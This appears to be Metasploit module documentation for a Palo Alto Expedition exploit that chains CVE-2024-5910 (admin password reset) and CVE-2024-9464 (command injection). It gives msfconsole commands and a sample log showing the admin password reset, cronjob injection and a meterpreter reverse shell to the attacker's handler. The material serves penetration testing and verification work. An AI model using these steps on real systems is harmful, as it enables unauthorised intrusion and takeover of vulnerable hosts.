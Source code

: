 ## Vulnerable Application

This module exploits two vulnerabilities in Palo Alto Expedition to obtain a remote shell. The first vulnerability, CVE-2024-5910, allows to
reset the password of the admin user. The second vulnerability, CVE-2024-9464, is an authenticated OS command injection.

When credentials are provided, this module will only exploit the second vulnerability. If no credentials are provided, the module will
first try to reset the admin password and then perform the OS command injection. In a default installation, commands will get executed in
the context of www-data.

Note: If no credentials are available, the module will attempt to reset the admin password. For this, the parameter RESET_ADMIN_PASSWD must
explicitly be set to true.

## Testing

The software can be obtained from
[the vendor](https://live.paloaltonetworks.com/t5/expedition/ct-p/migration_tool).

Installation instructions are available [here]
(https://live.paloaltonetworks.com/t5/expedition-articles/expedition-documentation/ta-p/215619?attachment-id=13781).

**Successfully tested on**

- Expedition v1.2.91 on Ubuntu Server 20.04.1.

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf6 > msf6 > use exploit/linux/http/paloalto_expedition_rce 
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/paloalto_expedition_rce) > set RHOSTS <IP>
msf6 exploit(linux/http/paloalto_expedition_rce) > exploit
```

You should get a meterpreter session in the context of `www-data`.

## Options

### USERNAME
Username for authentication, if available.

### PASSWORD
Password for the associated user.

### RESET_ADMIN_PASSWD
If the username and password are not specified, the module will attempt to reset the admin password to the default password `paloalto`. This
is also done to authenticate and retrieve the exact version information, in case no credentials have been provided. As this alters the
configuration of the target system, the `RESET_ADMIN_PASSWD` parameter serves as a safeguard that must explicility set to true before the
reset endpoint is being invoked.

## Scenarios

Running the exploit against Expedition v1.2.91 on Ubuntu Server 20.04.1, using curl or wget as a fetch command, should result in an output
similar to the following:

```
msf6 exploit(linux/http/paloalto_expedition_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.204:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Admin password successfully restored to default value paloalto (CVE-2024-5910).
[+] Successfully authenticated
[*] Version retrieved: 1.2.91
[*] Vulnerable to CVE-2024-5910 and appears to be vulnerable to CVE-2024-9464.
[+] The target appears to be vulnerable.
[*] Adding a new cronjob...
[*] Injecting OS command...
[*] Sending stage (3045380 bytes) to 192.168.137.203
[*] Meterpreter session 1 opened (192.168.137.204:4444 -> 192.168.137.203:49006) at 2024-10-13 19:30:10 -0400
[*] cleanup file: /tmp/j
[*] Check thy shell.

meterpreter > sysinfo 
Computer     : 192.168.137.203
OS           : Ubuntu 20.04 (Linux 5.4.0-42-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid 
Server username: www-data
meterpreter > 
```
